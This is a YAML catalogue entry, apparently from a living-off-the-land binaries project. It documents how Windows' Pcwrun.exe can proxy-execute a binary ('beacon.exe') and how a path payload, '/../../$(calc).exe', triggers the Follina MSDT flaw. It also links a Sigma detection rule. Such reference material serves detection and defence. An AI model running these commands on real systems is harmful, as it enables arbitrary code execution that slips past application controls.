 ```yaml
---
Name: Pcwrun.exe
Description: Program Compatibility Wizard
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: Pcwrun.exe c:\temp\beacon.exe
    Description: Open the target .EXE file with the Program Compatibility Wizard.
    Usecase: Proxy execution of binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: Pcwrun.exe /../../$(calc).exe
    Description: Leverage the MSDT follina vulnerability through Pcwrun to execute arbitrary commands and binaries. Note that this specific technique will not work on a patched system with the June 2022 Windows Security update.
    Usecase: Proxy execution of binary
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\pcwrun.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_pcwrun_follina.yml
Resources:
  - Link: https://twitter.com/pabraeken/status/991335019833708544
  - Link: https://twitter.com/nas_bench/status/1535663791362519040
Acknowledgement:
  - Person: Pierre-Alexandre Braeken
    Handle: '@pabraeken'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

